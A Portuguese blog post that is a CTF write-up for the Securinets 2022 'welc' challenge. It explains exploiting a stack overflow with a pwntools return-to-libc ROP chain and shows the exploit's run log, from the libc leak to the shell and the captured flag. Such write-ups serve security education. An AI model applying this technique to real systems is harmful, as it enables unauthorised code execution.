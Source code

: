 ```yaml
---
layout: default
title: Welcome - [Securinets CTF Quals 2022] - Return to libc com pwntools
date: 2022-04-11 20:53
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

**Link para o challenge: https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/Securinets_CTF_Quals_2022/1_welc**

Um clássico stack overflow. O binário não tem **stack canaries** nem **PIE**, mas está com **NX** ligado, então nada de shellcode. Por ter vindo uma libc junto do challenge, um ataque **return-to-libc** é facilitado e possível mesmo que o servidor esteja com **ASLR** habilitado. Sabendo o que tenho e o que posso fazer foi só questão de pôr em prática:

* Primeiro obtenho um leak do endereço de puts na libc. Consigo fazer isso com facilidade porque sem PIE no binário posso utilizar todos os endereços do mesmo. Depois de obter o endereço de puts, reinicio o binário finalizando minha primeira rop chain com o endereço de \_start. 
* Com o leak, basta usar um pouco de matemática para calcular on-demand o endereço de qualquer função da libc e montar uma segunda rop chain para executar **system('/bin/sh')**, obter a shell e ler a flag.

Esse resumo pode ter parecido grego para o não iniciado, então para os novinhos recomendo o liveoverflow explicando que porra é ret2libc: https://www.youtube.com/watch?v=m17mV24TgwY

A execução e o código do exploit completo podem ser observados abaixo. Destaco a facilidade que é utilizar a pwntools para criar rop chains (e vários outros processos repetitivos manuais necessários para escrever um exploit, vale a pena aprender e dominar essa porra) e demonstro no código essa diferença. Tentei comentar o que achei interessante para complementar a postagem.

```
b@vbm ~/c/s/pwn1> python3 xpl.py
[+] Opening connection to 20.216.39.14 on port 1237: Done
[*] '/home/b/ctf/securinets/pwn1/welc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './welc'
Zied likes degla b zbib ! what about you ?
[*] '/home/b/ctf/securinets/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leaked puts 0x7f4b74d56450
System address 0x7f4b74d242c0
/bin/sh address 0x7f4b74e865bd
0x0000:         0x40101a ret
0x0008:         0x401283 pop rdi; ret
0x0010:              0x0 [arg0] rdi = 0
0x0018:         0x401281 pop rsi; pop r15; ret
0x0020:              0x0 [arg1] rsi = 0
0x0028:      b'kaaalaaa' <pad r15>
0x0030:   0x7f4b74de6980
0x0038:         0x401283 pop rdi; ret
0x0040:   0x7f4b74e865bd [arg0] rdi = 139962060662205
0x0048:   0x7f4b74d242c0
Press enter to pwn...
Zied likes degla b zbib ! what about you ?
Enjoy the shell
[*] Switching to interactive mode
$ ls
flag.txt
welc
ynetd
$ cat flag.txt
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```

<script src="https://gist.github.com/brerodrigues/9161ae24483d0e2f78aef8e6318088b1.js"></script>
